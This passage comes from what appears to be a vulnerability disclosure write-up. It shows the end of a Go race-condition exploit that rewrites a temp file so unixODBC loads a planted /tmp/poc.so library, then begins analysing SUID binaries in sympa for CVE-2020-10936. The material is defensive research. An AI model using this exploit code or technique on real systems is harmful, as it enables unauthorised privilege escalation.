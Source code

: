 ```go
	pid := os.Getpid()
	fmt.Printf("[~] Current pid : %d\n", pid)

	fmt.Println("[+] Attempting to win the race, watch for changes in /etc/odbcinstall.conf !")

	f, err := os.OpenFile("/tmp/race.ini", os.O_CREATE | os.O_RDWR, 0700)
	if err != nil {
		panic(err)
	}
	SpreadHardlinks(pid)

	for {
		f.Seek(0, 0)
		f.WriteString(poc)
		f.Sync()
	}

	f.Close()
}
```

That way, every time a program tries to use unixODBC, the `/tmp/poc.so` library will be loaded.

However, we did not find any program or service that could use unixODBC during the installation process. This vulnerability could still be used to escalate privileges if some services or web applications use ODBC as this will load the `/tmp/poc.so` dynamic library.

### Abusing sympa (CVE-2020-10936)

After evaluating the security of some install scripts, we decided to extract every RPM and search for *SUID* binaries.

After a quick search, we focused on the `/usr/libexec/sympa/` directory, that contains multiple *suid* binaries:

```
[XYZ@localhost ~]$ ls -lah /usr/libexec/sympa/
[...]
-rwsr-xr-x.  1 sympa sympa  16K 23 janv. 09:46 bouncequeue
-rwsr-xr-x.  1 sympa sympa  16K 23 janv. 09:46 familyqueue
-rwsr-xr-x.  1 sympa sympa  16K 23 janv. 09:46 queue
-rwsr-x---.  1 root  sympa  16K 23 janv. 09:46 sympa_newaliases-wrapper
-rwsr-sr-x.  1 sympa sympa  16K 23 janv. 09:46 sympa_soap_server-wrapper.fcgi
-rwsr-sr-x.  1 sympa sympa  16K 23 janv. 09:46 wwsympa-wrapper.fcgi
```

As you can see, only the `sympa_newaliases-wrapper` binary is *suid root*. However, this binary is not world-executable. Only users from the *sympa* group are allowed to execute this program, and this is not our case.

So, in order to be able to execute this program, we need to perform a privileges escalation to the *sympa* user.

We looked at the `wwsympa-wrapper.fcgi` *setuid/setgid sympa* binary for vulnerabilities. We simply downloaded the RPM source using `dnf download --source sympa`, extracted some TARs, and looked at the C source code (that, honestly, looks like a CTF challenge):
